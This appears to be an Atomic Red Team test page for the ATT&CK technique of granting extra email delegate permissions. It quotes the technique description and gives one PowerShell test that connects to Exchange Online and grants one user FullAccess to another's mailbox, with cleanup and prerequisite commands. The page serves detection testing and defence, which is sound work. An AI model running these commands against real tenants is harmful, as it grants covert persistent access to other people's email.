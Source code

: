 # T1098.002 - Account Manipulation: Additional Email Delegate Permissions
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1098/002)
<blockquote>Adversaries may grant additional permission levels to maintain persistent access to an adversary-controlled email account. 

For example, the <code>Add-MailboxPermission</code> [PowerShell](https://attack.mitre.org/techniques/T1059/001) cmdlet, available in on-premises Exchange and in the cloud-based service Office 365, adds permissions to a mailbox.(Citation: Microsoft - Add-MailboxPermission)(Citation: FireEye APT35 2018)(Citation: Crowdstrike Hiding in Plain Sight 2018) In Google Workspace, delegation can be enabled via the Google Admin console and users can delegate accounts via their Gmail settings.(Citation: Gmail Delegation)(Citation: Google Ensuring Your Information is Safe) 

Adversaries may also assign mailbox folder permissions through individual folder permissions or roles. In Office 365 environments, adversaries may assign the Default or Anonymous user permissions or roles to the Top of Information Store (root), Inbox, or other mailbox folders. By assigning one or both user permissions to a folder, the adversary can utilize any other account in the tenant to maintain persistence to the target user’s mail folders.(Citation: Mandiant Defend UNC2452 White Paper)

This may be used in persistent threat incidents as well as BEC (Business Email Compromise) incidents where an adversary can add [Additional Cloud Roles](https://attack.mitre.org/techniques/T1098/003) to the accounts they wish to compromise. This may further enable use of additional techniques for gaining access to systems. For example, compromised business accounts are often used to send messages to other accounts in the network of the target business while creating inbox rules (ex: [Internal Spearphishing](https://attack.mitre.org/techniques/T1534)), so the messages evade spam/phishing detection mechanisms.(Citation: Bienstock, D. - Defending O365 - 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - EXO - Full access mailbox permission granted to a user](#atomic-test-1---exo---full-access-mailbox-permission-granted-to-a-user)


<br/>

## Atomic Test #1 - EXO - Full access mailbox permission granted to a user
Give a nominated user, full mailbox delegation access of another user.
This can be used by an adversary to maintain persistent access to a target's mailbox in M365.

**Supported Platforms:** Office-365


**auto_generated_guid:** 17d046be-fdd0-4cbb-b5c7-55c85d9d0714





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | o365_user_test@contoso.com|
| password | office-365 password | string | o365_password_test|
| delegate_target | office-365 target_email | string | delegate@contoso.com|
| operator_mailbox | office-365 target_email | string | operator@contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Add-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All
Disconnect-ExchangeOnline -Confirm:$false
```

#### Cleanup Commands:
```powershell
Import-Module ExchangeOnlineManagement
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Remove-MailboxPermission -Identity "#{delegate_target}" -User "#{operator_mailbox}" -AccessRights FullAccess -InheritanceType All -Confirm:$false
Disconnect-ExchangeOnline -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement
```




<br/>
